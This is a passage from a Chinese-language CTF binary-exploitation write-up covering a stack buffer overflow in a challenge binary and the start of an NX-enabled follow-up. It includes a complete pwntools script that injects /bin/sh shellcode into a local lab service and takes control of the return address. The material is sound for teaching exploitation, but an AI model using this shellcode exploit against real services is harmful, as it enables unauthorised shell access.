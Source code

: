 从汇编代码中我们能看出`buf`的长度为`0x1c`, 但是read函数却可以最大读取`0x100`比特的字符串, 很明显会导致溢出漏洞

这里推荐一个神器: [peda](https://github.com/longld/peda)

peda为gdb插件

peda有一个checksec命令, 可以检测二进制的保护机制是否开启
```
$ gdb pwn2
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

其中NX, 表示堆栈不可执行的保护, 状态为disabled, 表示堆栈不可执行关闭, 也就是说eip可以跳到堆栈地址

这时候我们可以使用shellcode, 啥为shellcode? 比如一段C代码`system('/bin/sh');`, 把其转为汇编再转为二进制形式就是shellcode

我们可以把shellcode储存在`buf`变量中, 然后通过溢出, 控制eip跳转到`buf`的地址, 我们就可以执行shellcode了, 可以想象成是执行`system('/bin/sh');`

在`foo`函数中一开始就输出`buf`变量的地址了, 所以也挺简单的

```
#!/usr/bin/env python
#-*- coding:utf-8 -*-

from pwn import *

shell_code = shellcraft.i386.sh()    # pwntools生成shellcode的汇编代码
shell_code = asm(shell_code)         # 把汇编代码进行汇编生成二进制
conn = remote('127.0.0.1', 10003)
addr = conn.recvline()
add = int(addr[2:],16)               # 获取buf地址
shellcode_add = p32(add + 32 + 4)    # 计算出shellcode地址, 然后转换成二进制字符串
v = 32*"a" + shellcode_add + shell_code  # 0x1c的buf + 4 byte的ebp + 4 byte的shellcode地址 + shellcode
conn.send(v+"\n")
conn.interactive()
```

# 0x4 PWN3

描述: 如果服务开了NX, 应该怎么拿shell呢?

该题给了一个二进制文件和该二进制文件依赖的libc库

使用binwalk， 可知是32位程序, 使用checksec, 可知开启了NX保护, 表示堆栈不可执行, 所以无法像上一题一样控制eip跳到栈地址了.

先丢ida

跟上一题差不多的代码, 同样buf大小为`0x1c`

所以通过溢出控制eip很简单, (只要前面的理解清楚了)现在的问题是, 控制了eip后可以干什么? 首先考虑, 做这题我们的目的是啥, 原题是flag位于`/home/pwn/pwn3/flag`路径下, 要读取该文件就需要能执行shell命令, 我复现的环境里没放进flag， 所以最终目是能getshell就好了.
